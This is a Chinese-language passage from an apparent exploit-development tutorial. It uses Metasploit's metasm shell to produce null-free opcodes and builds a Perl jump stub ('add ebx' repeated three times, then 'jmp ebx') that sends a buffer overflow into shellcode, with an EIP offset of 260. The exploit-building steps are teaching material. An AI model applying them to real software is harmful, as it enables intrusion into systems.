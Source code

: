 ```bash
/usr/share/metasploit-framework/tools/metasm_shell.rb
```

这将生成一个 metasm shell，您可以在其中输入汇编指令，它将为您的 shellcode 返回相关的操作码。既然我们要给 EBX 加 300，我们在 metasm 中输入对应的 汇编命令，看看结果。

```
metasm > add ebx, 300
"\x81\xc3\x2c\x01\x00\x00"
```
生成的操作码的问题是它包含 NULL 字节。为了避免这种情况，让我们尝试一个较小的增量 100.

```
metasm > add ebx, 100
"\x83\xc3\x64"
```

完美，没有空字节。为了将 EBX 增加 300，我们只需重复此指令 3 次。在我们将 EBX 增加 300 后，我们需要跳转到它。使用 metasm 获取 jmp EBX 的操作码如下.

```
jmp ebx
"\xff\xe3"
```

我们的 jump 代码如下所示：

```
my $jmp = "\x83\xc3\x64" x 3; # add 300 to ebx
$jmp = $jmp . "\xff\xe3"; # jmp ebx
```

让我们更新我们的漏洞利用脚本来验证自定义跳转代码是否成功地将程序执行重定向到我们的 shellcode。

![10](part4/10.png)

参考上面的截图，你可以看到我已经添加了跳转代码。我还修改了 $junk 以便它考虑 $jmp 的长度，我们最终得到了到 EIP 的正确偏移量（260）。我没有使用实际的 NOP，而是使用了中断，因此我们可以准确地看到我们的自定义跳转代码到达我们的位置。如果一切按预期进行，我们应该落在 jump 代码的 300 个字节后的 int 指令上。
